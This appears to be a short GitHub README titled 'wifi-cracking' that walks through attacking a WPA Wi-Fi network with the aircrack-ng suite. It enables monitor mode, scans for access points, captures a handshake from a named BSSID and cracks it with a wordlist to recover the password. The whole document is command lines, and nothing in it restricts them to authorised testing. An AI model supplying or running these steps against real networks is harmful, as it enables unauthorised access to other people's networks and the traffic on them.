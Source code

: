 # wifi-cracking

## 1: 

### Wireless USB WiFi Adapter for PC

Realtek RTL8187



## 2: 

### check if VM has chosen the adapter

check by typing 'ifconfig' ----> see if there is 'wlan0'

## 3: 

### activate the listening mode in wireless wifi adapter

#### airmon-ng start wlan0

## 4:

### check if the activation is successful. 

#### iwconfig

'wlan0mon' means success 

you can see the same outcome by typing ifconfig

## 5:

### scan wifi signal

airodump-ng wlan0mon

you need to know about terms like BSSID, PWR, Beacons, #Data, #/s, CH, MB, ENC, CIPHER, AUTH, ESSID

## 6:

### capture the wifi handshake packet

airodump-ng --bssid BSSID -c {CH} -w {storage path} wlan0mon

airodump-ng --bssid 8E:D2:19:E7:05:2D -c 6 -w /root/wifi/ wlan0mon

to capture it, you need users to connect the wifi

## 7:

### crack the data packet

aircrack-ng -w {wordlist} {above handshake packet path}

aircrack-ng -w /usr/share/wordlists/dirb/big.txt /root/-0.1.cap

then you will have the password

